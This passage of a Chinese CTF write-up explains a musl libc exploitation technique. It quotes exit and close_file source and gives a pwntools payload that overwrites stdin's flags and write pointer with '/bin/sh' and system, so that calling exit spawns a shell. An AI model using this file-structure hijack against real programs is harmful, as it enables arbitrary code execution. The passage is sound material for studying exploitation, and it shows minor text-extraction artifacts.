 上面是`_IO_FILE`结构体的定义。musl libc 版 `_IO_FILE`结构体没有专门的 vtable，只有四个函数指针`close`、`read`、`write`和`seek`且分布在结构体中的不同位置。由于`stin`、`stdout`和`stderr`结构体所处的内存块可写，我们可以通过任意地址写来改写上面的内容。

```
// sub_400E07
p = (char *)malloc(size);
if ( p == (char *)0xBADBEEF )
`{`
  sub_400AEC("ERROR: Bad beefn");
  exit(-1);
`}`
```

在程序中，有一处地方调用了`exit` 函数。

```
// src/exit/exit.c L27-L33
_Noreturn void exit(int code)
`{`
    __funcs_on_exit();
    __libc_exit_fini();
    __stdio_exit();  &lt;---
    _Exit(code);
`}`
```

```
// src/stdio/__stdio_exit.c L16-L23
void __stdio_exit(void)
`{`
    FILE *f;
    for (f=*__ofl_lock(); f; f=f-&gt;next) close_file(f);
    close_file(__stdin_used);  &lt;---
    close_file(__stdout_used);
    close_file(__stderr_used);
`}`
```

```
// src/stdio/__stdio_exit.c L8-L14
static void close_file(FILE *f)
`{`
    if (!f) return;
    FFINALLOCK(f);
    if (f-&gt;wpos != f-&gt;wbase) f-&gt;write(f, 0, 0);  &lt;---
    if (f-&gt;rpos != f-&gt;rend) f-&gt;seek(f, f-&gt;rpos-f-&gt;rend, SEEK_CUR);
`}`
```

翻阅源码，发现`exit`函数后来调用`__stdio_exit`函数来关闭所有打开的文件流。在`close_file`函数中，如果文件流`f`符合条件`f-&gt;wpos != f-&gt;wbase`，则调用`f`文件结构体上的`write`函数指针：`f-&gt;write(f, 0, 0)`。

```
payload  = "/bin/shx00"    # stdin-&gt;flags
payload += 'X' * 32
payload += p64(0xdeadbeef)  # stdin-&gt;wpos
payload += 'X' * 8
payload += p64(0xbeefdead)  # stdin-&gt;wbase
payload += 'X' * 8
payload += p64(system)      # stdin-&gt;write

edit(stdin, payload)
```
